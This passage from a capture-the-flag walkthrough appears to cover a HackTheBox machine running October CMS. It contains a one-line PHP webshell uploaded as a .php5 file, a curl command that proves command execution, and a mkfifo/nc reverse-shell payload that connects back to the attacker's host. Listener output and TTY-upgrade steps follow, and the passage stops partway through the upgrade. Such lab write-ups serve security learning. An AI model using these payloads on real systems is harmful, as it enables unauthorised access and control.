 
But `php5` is a valid php extension, so I can upload a shell as that.

If I go to the media tab, I’ll see the “Upload” button:

![1552133490763](https://0xdfimages.gitlab.io/img/1552133490763.png)

I’ll upload a simple webshell, `<?php system($_REQUEST['cmd']); ?>` as
`cmd.php5`:

![1552133537262](https://0xdfimages.gitlab.io/img/1552133537262.png)

### Webshell

The link on the left gives the public url of
`http://10.10.10.16/storage/app/media/cmd.php5`, which I can visit with a
`?cmd=id` at the end to prove execution:

    
    
    root@kali# curl http://10.10.10.16/storage/app/media/cmd.php5?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

I can go to full shell with:

    
    
    root@kali# curl http://10.10.10.16/storage/app/media/cmd.php5 --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.16.
    Ncat: Connection from 10.10.10.16:40712.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade that to a solid shell through the standard process:

  1. Use python to get a tty: `python -c 'import pty;pty.spawn("bash")'`
  2. Background shell with ctrl+z
  3. `stty raw -echo`
  4. `fg` (terminal will look funky)
  5. `reset`
  6. If asked for terminal type, enter screen.

    
    
    $ python -c 'import pty;pty.spawn("bash")'
    www-data@october:/var/www/html/cms/storage/app/media$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443   # I typed fg enter
                                         reset     # now i type reset
    reset: unknown terminal type unknown
    Terminal type? screen  # i typed screen
         